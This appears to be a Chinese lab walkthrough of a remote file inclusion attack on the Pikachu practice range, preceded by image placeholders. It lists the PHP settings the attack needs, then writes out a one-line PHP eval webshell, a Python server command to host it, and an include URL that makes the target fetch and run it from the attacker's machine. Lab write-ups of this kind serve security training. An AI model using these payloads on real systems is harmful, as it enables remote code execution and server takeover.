










远程文件包含

实验准备

实现远程文件包含的前提是PHP配置中需要开启allow_url_include和关闭magic_quotes_gpc这两个功能

allow_url_include：作用是控制文件包含类函数（include/require 等）是否允许加载远程 URL 地址文件。

magic_quotes_gpc：中文常称魔术引号，是 PHP 早期的安全防护配置，专门用于自动转义用户提交的特殊字符。 开启后，PHP 会自动对 GET、POST、Cookie 三类用户输入中的危险特殊字符添加反斜杠 \ 进行转义

单引号 ' → \'

双引号 " → \"

反斜杠 \ → \\

NULL 字符 \0（空字节）→ \\0

同时，还需要修改php.ini文件里的内容

该漏洞复现场景，php版本必须>=5.3及以上

准备webshell文件并搭建远程文件服务器

在你的本地机器（如Kali Linux）上创建一个包含一句话木马的PHP文件，例如：

echo '<?php @eval($_POST["cmd"]); ?>'> webshell.php

启动一个HTTP服务，将该文件放在可被访问的目录下。可以使用简单的Python命令快速搭建：

python3 -m http.server 8080

pikachu靶场访问

192.168.214.138(kali的ip，填入下面payload中第二个ip的位置)

http://192.168.214.142/pikachu/vul/fileinclude/fi_remote.php?filename=http://192.168.214.138:8080/webshell.php&submit=Submit+Query

没有任何回显，是正常的，我们使用蚁剑测试连接

测试虚拟终端

